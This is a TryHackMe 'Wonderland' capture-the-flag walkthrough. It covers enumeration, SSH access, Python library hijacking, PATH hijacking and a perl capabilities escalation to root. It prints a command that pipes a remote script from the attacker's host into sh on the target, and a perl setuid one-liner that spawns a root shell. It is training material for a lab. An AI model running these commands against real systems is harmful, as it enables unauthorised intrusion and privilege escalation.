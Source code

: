 # TryHackMe - Wonderland

https://tryhackme.com/room/wonderland

Topics cover in this room:
- Python module manipulation
- PATH variable environment
- Capabilities

### Recon and Enumeration

```bash
nmap -sC -sV 10.10.243.9 # Change this to IP given
```
  ![nmap-scan](img\nmap-scan.png)

We found port `80`, lets run `gobuster` to enumerate directory in the website
```bash
gobuster dir -w /opt/common.txt -u 10.10.243.9 
# Change this to IP given
# your wordlist may be different
```
While gobuster is scanning, lets open browser to see what the website has
  ![web-manual-hunt-1](img\web-manual-hunt-1.png)


Nothing, lets see the source page. Hit `Ctrl+U` if you are using Firefox
  ![\web-manual-hunt-1-source-code](img\web-manual-hunt-1-source-code.png)

Same. Lets see if our gobuster found something
  ![gobuster-scan.png](img\gobuster-scan.png)

`/r`, interesting. Lets see what in there. Type `IP_OF_MACHINE/r`
  ![web-manual-hunt-2.png](img\web-manual-hunt-2.png)
Hmm, maybe we should follow *rabbit*? Lets try access all directory with spelling rabbit. The syntax should be
1. `IP_OF_MACHINE/r`
2. `IP_OF_MACHINE/r/a`
3. `IP_OF_MACHINE/r/a/b`
4. `IP_OF_MACHINE/r/a/b/b`
5. `IP_OF_MACHINE/r/a/b/b/i`
6. `IP_OF_MACHINE/r/a/b/b/i`
7. `IP_OF_MACHINE/r/a/b/b/i/t`
  ![web-manual-hunt-end.png](img\ web-manual-hunt-end.png)


Have get ourself into the *rabbit hole*? Lets we check the source code of the page. Hit `Ctrl+U` if you are using firefox
  ![web-manual-hunt-end-source-page.png](img\web-manual-hunt-end-source-page.png) 
We know from Nmap scan, we have port `22` open which we can SSH into the machine. And we found something that was hidden that may have been credential. Lets SSH into the machine with this info
```bash
ssh alice@IP
```
  ![ssh-alice.png](img\ssh-alice.png) 
***WE ARE IN***

### Alice

Lets see what `alice`
  ![alice-directory.png](img\alice-directory.png) 

We have 2 interesting files called `root.txt` and a python file. Both can only be run as `root`.

Lets see what `sudo` command our `alice` can run
![alice-sudo.png](img\alice-sudo.png) 

So, `alice` can run the python command only as a username `rabbit`. Lets run it
  ![alice-py.png](img\alice-py.png) 

We got some poem, lets see what is this python script does. Use `nano walrus_and_the_carpenter.py`
  ![alice-py-sc-1.png](img\alice-py-sc-1.png) 
  ![alice-py-sc-2.png](img\alice-py-sc-2.png) 

So, the scripts run a `for` loop where it will randomly split the poem and print in 10 times using `random` library.

If we check python library path configuration using `python3 -c 'import sys; print(sys.path)'` we will see that the very first thing python will check is current directory where the script is run(mark by `['',` )
  ![alice-py-lib-src.png](img\alice-py-lib-src.png) 

What that mean is, we can create a new python file named `random.py` containing some exploit code where `walrus_and_the_carpenter.py` will use it as the library, since current directory is the very first the script will check. More in [here](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)

Make a new file call `random.py` with `nano` or `vim` and type code bellow
  ![random-py-exploit.png](img\random-py-exploit.png) 

Now if we run the `sudo rabbit` command earlier, we will now will switch to user `rabbit`
  ![rabbit-shell.png](img\rabbit-shell.png) 

### Rabbit

Neat, lets see what we have in `rabbit` directory.
  ![rabbit-directory.png](img\rabbit-directory.png)
 
Running `file teaParty` will tell us what is this file. It is a binary file. Running it with `./teaParty` wont tell us much info
  ![teaParty](img\teaParty.png)

Usually with binary file, we can use `strings` to see what piece of string that is in the file. But since there is no `strings` in our machine we will use `less`. Run `less teaParty`. You will get bunch of text that very confusing, its because we try to open binary file as a text. But there are strings that readable, that what we wanted. Scroll down long enough you will find strings that look similiar when we run `./teaParty`
  ![teaParty-string](img\teaParty-string.png)

What this binary will do if it run, it will dispay text `Welcome to the tea party! The Mad Hatter will be here soon.` and then date that is `echo` from the variable `date` in the system (in our case its our machine). Hence why when we run the file, we get estimated time +1 hour from our machine. 

If you look closely there are 2 variable that this binary use. `echo` and `date`. `echo` is set to run using PATH from `bin/echo`, but there is no rule for where this `date` variable should run from. We can create our own `date.sh` containing our payload as the PATH preferance for binary to run. So lets do this!

> More on explained of PATH is [here](https://linuxconfig.org/linux-path-environment-variable) and for [this exploit](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) it self

Make a new path on `/tmp` with command `export PATH=/tmp:$PATH` and confirm it with `echo $PATH`. If done correctly we can see that `/tmp` is in front.

> Why on `/tmp` you may ask? Most of the directory that own by `root` can only be access as `root` it self for some exception which `/tmp` is one of them, google this for more info.

Create a new shell script called `date` with `vim` or `nano` with code below
  ![date-exploit](img\date-exploit.png)

Change the mode of our `date` as executable wih `chmod +x /tmp/date` and run the binary again with `./teaParty`
  ![hatter-shell](img\hatter-shell.png)

There is explanation for this exploit, which I will try to explain the best as I can:

1. You may wondering, why we create our `date` on `/tmp` as suppose to in current directory? It because `teaParty` is own and can only edited by `root` which you can check with running command `ls -la`. Since we need to modify the `date` whome our `teaParty` use, hence we need to place it as in `root` only area, and `/tmp` is one of the place that own by `root` whose also can be access by any user. If you try to use in current directory, it wont work.

2. What the code in `date` does is simply spawn `bash` as suppose to complete the script. If we run `teaParty` normally, there is `ending` which the script is complete its job. Where after this exploit, instead of giving you and time estimation in the line after `Probably by` it spawn a `bash` shell.

So now we have `hatter` shell, we will go to `hatter` home directory. 
  ![hatter-pass](img\hatter-pass.png)

Go ahead to `cat` the password and lets switch to `hatter` user, since we technically are not fully `hatter`
  ![su-hatter](img\su-hatter.png)

### Hatter

All we have is just `password.txt`, and nothing else. What we do now? Well lets use enumeration tool, `[linpeas]`(https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Download the file and put it in your machine. Start web simple httpserver by `python3 -m http.server 80` on where `linpeas.sh` is located. Open a new terminal and type in `ifconfig` and save/write `tun0` IP somewhere

On target machine, type in `curl tun0_IP/linpeas.sh | sh | tee linlog.txt`. What this command does is it will download `linpeas.sh` in our mahcine and run it as well as save it as `linlog.txt`

As you notice, it really slow to navigating the target machine. And there are a lot of information that `linlog.txt` has so we want to copy `linlog.txt` form target machine to our machine. Use `scp hatter@10.10.243.9:/home/hatter/linlog.txt .` and once completed, open it on your machine with `less -r linlog.txt` and press `y`

This part require you to have some knowledge of linux privilege escalation vector. Usually if this is beginner room, you will see right away the vector by finding **orange** color.

Running `sudo -l` confirming that `hatter` dont have access to `sudo`. Right now, the best we can do is to check anythng that `linpeas` has mark with **red** color. One of way to check is to use [GTFOBins](https://gtfobins.github.io/) as well as read the link that `linpeas.sh` gave.

To make it short we will use whats in `capabilities`. Quoting from book.hacktricks.xyz it self
> Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.

In short: `capabilities` is a way to make a exception for non priviledge user to run important task like most of networking stuff which `root` is the one who capable as `root` is priviledge user. There are a lot of vector we can use, but `linpeas` told us we can use `cap_setuid` of `perl`. Read more [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#capabilities).
  ![capabilites](img\capabilities.png)

Type in `which perl` to find where is the perl executable is located, and head over to [GTFOBins](https://gtfobins.github.io/) and find `Perl` section

On the very bottom, we see `Capabilities` section. We only need some of the code, so use command `/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'`.
  ![perl-to-bash](img\perl-to-bash.png)
> NOTE: `/bin/sh` is change to `/bin/bash` because we want `bash` to spawn, not `sh`

And now you are `root`. Since you are root, you can go to `alice` directory to get `root.txt` and go to `/root` directory to get `user.txt`
